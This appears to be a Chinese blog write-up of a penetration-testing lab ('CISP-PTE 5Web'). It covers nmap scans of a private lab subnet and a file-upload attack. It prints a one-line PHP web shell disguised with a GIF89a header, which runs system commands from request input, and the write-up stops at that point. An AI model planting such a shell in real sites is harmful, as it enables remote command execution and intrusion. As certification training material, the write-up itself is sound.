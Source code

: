 ```yaml
---
layout: post
title: CISP-PTE 5Web
subtitle: CISP-PTE 5Web
date: 2025-08-17 08:44
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
published: false
---
```

## 1. 信息搜集

扫描网段

```shell
namp -sn 192.168.163.0/24
```

发现主机：192.168.163.132

![image.png](https://img.ghostliner.top/sAg7Cf.png)

```shell
nmap -T5 -sS -p- 192.168.163.132
```

![image.png](https://img.ghostliner.top/DLKSpv.png)

## 2. web1：文件上传

**端口**：32768

![image.png](https://img.ghostliner.top/Vxhg0i.png)

上传普通图片，成功

![image.png](https://img.ghostliner.top/PpVx6G.png)

`http://192.168.163.132:32768/uploads/31457.jpg`

上传 `shell.jpg`

![image.png](https://img.ghostliner.top/AvL5Wi.png)

![image.png](https://img.ghostliner.top/Or62km.png)

`eval` 改为 `system` 仍失败

```php
GIF89a
<?php SYSTEM($_REQUEST[a]);?>
```
